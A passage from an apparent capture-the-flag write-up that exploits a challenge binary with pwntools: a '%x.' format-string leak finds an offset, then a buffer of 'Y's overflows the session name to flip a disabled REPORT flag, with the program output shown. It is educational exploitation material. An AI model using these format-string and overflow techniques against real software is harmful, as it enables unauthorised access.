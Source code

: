 The `Y, N, Y` looks very similar to the `Y, N, Y` of the dialog shown from the command menu. Let's grab where in the format string the `4e` is in order to know how much to overflow.

```python
# Update Session name
r.sendline('3')

# Send format string
shellcode = '%x.' * 70

# Wipe the input buffer so we aren't reading old data
r.clean()
r.sendline(shellcode)
r.recvuntil("SESSION: ")

# Grab the format string output
session_name = r.recvuntil('\n').split('.')

# Isolate the 'N' (0x4e) in our format string
n_index = session_name.index('4e')
log.info("Report 'N' at offset {}".format(n_index))

```

Could we try and use our input buffer to overflow the `N` for report to a `Y` to enable the report? After a few tries of different lengths, we succeed:

```
n_index = session_name.index('4e')
# Resend a buffer of 'Y's up to the location of the 'N'
r.sendline('3')
r.sendline('Y' * (4*(n_index-2) + 1) )
```

```
SESSION: YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY
  AUTH   [Y]    REPORT [Y]    MENU   [Y]  
  --------------------------------------------------------------


  1  - CREATE REPORT
  2  - VIEW CODE REPOSITORY
  3  - UPDATE SESSION NAME
  4  - SHELL
  5  - LOG OFF

  ENTER COMMAND: $  
```

Notice the Report now has `[Y]`! Winning.. Let's see what we can do with reports.

## Step 3
